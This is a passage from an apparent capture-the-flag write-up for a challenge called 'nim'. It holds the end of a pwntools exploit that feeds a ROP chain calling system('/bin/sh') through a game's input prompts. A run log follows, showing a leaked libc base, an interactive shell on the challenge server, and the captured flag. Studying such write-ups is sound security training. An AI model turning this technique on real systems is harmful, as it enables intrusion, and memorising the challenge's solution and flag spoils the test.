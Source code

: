 ```python
    
    # lost 1 bet and rop
    p.sendlineafter("[y/n]? ",'y')
    p.sendlineafter("game? ", '1')
    p.sendlineafter("?", '60')
    rop = [
        1,2,3,4,5,6,7,8,9,10,11,12,
        libc_got&0xffffffff,
        (libc_got>>32)&0xffffffff,
        15,16,17,18,
        pop_rdi&0xffffffff,
        (pop_rdi>>32)&0xffffffff,
        binsh&0xffffffff,
        (binsh>>32)&0xffffffff,
        system&0xffffffff,
        (system>>32)&0xffffffff,
        25,26,27,28,29,30          
    ]
    for i in rop:
        p.sendlineafter(": ", str(i))
    p.sendlineafter("resign): ",'0')
    p.sendlineafter("[y/n]? ",'n')   

    p.interactive()

if __name__ == "__main__":
    main()
```

A very funny challenge !

```python
[+] Opening connection to nim.hackable.software on port 1337: Done
[+] libc base ---> 0x7f6f70f58000
[+] target ---> 0x70fe1d28
[+] current scores  ---> 0x4e20
[+] current scores  ---> 0x9c40
[+] current scores  ---> 0x13880
[+] current scores  ---> 0x27100
[+] current scores  ---> 0x4e200
[+] current scores  ---> 0x9c400
[+] current scores  ---> 0x138800
[+] current scores  ---> 0x271000
[+] current scores  ---> 0x4e2000
[+] current scores  ---> 0x9c4000
[+] current scores  ---> 0x1388000
[+] current scores  ---> 0x2710000
[+] current scores  ---> 0x4e20000
[+] current scores  ---> 0x9c40000
[+] current scores  ---> 0x13880000
[+] current scores  ---> 0x27100000
[+] current scores  ---> 0x4e200000
[+] current scores  ---> 0x70fe1d28
[*] Switching to interactive mode
[!] "`-._,-'"`-._,-' NEW ALL TIME RECORD: 1895701799 pts "`-._,-'"`-._,-'
$ ls
flag.txt
nim
$ cat flag.txt
DrgnS{St4ck_b0f_still_expl0itable_in_2021}
```

